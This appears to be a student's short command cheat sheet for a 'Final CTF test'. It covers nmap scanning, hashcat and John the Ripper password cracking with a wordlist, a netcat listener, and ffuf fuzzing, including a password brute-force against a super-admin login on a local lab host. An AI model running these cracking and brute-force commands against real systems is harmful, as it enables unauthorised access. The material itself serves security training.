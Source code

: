 # Final CTF test

## a.

Commands Notes:

NMAP:
`nmap -A -T4 -p- -sS -sV -O 127.0.0.2`

hashcat:
- `hashcat -a 0 -m 0 hash.txt rockyou.txt -o solved`
- `hashcat -a 6 -m 0 hash.txt rockyou.txt ?d?d?d?d -o solved`
- hashid -m <hash>
- hashcat -a 0 -m 1400 354e09c97d9d6acd67e82eaec6d048d0b32c61768bc2e44bdda52e0e4ec3782d rockyou.txt -o solved

354e09c97d9d6acd67e82eaec6d048d0b32c61768bc2e44bdda52e0e4ec3782d

john:
- `$HOME/john/run/zip2john tero.zip > tero.zip.hash`

netcat:
- nc -l -v -n -p 8873


Can you log in as Anselmi, the Super Admin?


`ffuf -w common.txt -u http://127.0.0.2:8038/FUZZ -fs 42`

`ffuf -w /path/to/postdata.txt -X POST -d "username=anselmi\&password=FUZZ" -u http://127.0.0.2:8038 -fs 42`